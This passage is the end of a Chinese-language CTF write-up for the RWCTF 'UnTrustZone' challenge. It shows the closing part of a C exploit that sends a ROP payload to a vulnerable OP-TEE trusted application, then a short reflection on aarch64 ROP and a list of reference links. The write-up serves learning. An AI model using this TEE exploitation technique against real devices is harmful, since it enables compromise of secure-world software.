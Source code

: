 ```C
	*(payload + sp_offset + 2) = 0x1919191919191919;
	*(payload + sp_offset + 3) = 0x2020202020202020;

	sp_offset += 0x20 / 8;

	/* Resery Fake Inputs! */

	char obj_id[] = "aaaaaaaa";

	op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT, TEEC_MEMREF_TEMP_INPUT, TEEC_NONE, TEEC_NONE);
	op.params[0].tmpref.buffer = obj_id;
	op.params[0].tmpref.size = sizeof(obj_id);
	op.params[1].tmpref.buffer = payload;
	op.params[1].tmpref.size = 0x4000;

	/* Let's invoke the bugs! */
	res = TEEC_InvokeCommand(&sess, TA_BUG_CMD_ID, &op,
				 &err_origin);

	if (res != TEEC_SUCCESS) {
		printf("TEEC_InvokeCommand failed: 0x%x\n", res);
	}

	// flag 72776374667b746869735f69735f66616b655f666c61677d
	// rwctf{this_is_fake_flag}

	TEEC_CloseSession(&sess);
	TEEC_FinalizeContext(&ctx);

	return 0;
}
```

## 总结

通过这道题不仅学到了 TA Pwn 的利用方法，同时也学习到了 aarch64 下 ropchain 链的构造方法。能成功复现这道题目也还需要感谢 cts 的耐心指导以及他非常完善的 wp 。至此 RWCTF 中与 TEE 有关的题目就已经全部复现完了，如果精力足够的话之后准备再复现一下 HSO(I think hso is the best challenge of clone-and-pwn) ，不过还都待定 XD 。

## 参考链接

https://github.com/perfectblue/ctf-writeups/tree/master/2022/realworld-ctf-2022/untrustZone

https://bestwing.me/RWCTF-4th-TrustZone-challenge-Writeup.html#UnTrustZone

https://github.com/OP-TEE/optee_os/blob/203ee23d005b2cec2f21b5de334c5a246be32599/lib/libutee/tee_api_objects.c

https://github.com/OP-TEE/optee_os/blob/master/lib/libutee/arch/arm/utee_syscalls_asm.S

https://github.com/OP-TEE/optee_os/blob/6d2f7cf2c8e04bf79411978fd8d82e769ba52c78/core/tee/tee_svc_storage.c

https://optee.readthedocs.io/en/latest/

https://blog.perfect.blue/ROPing-on-Aarch64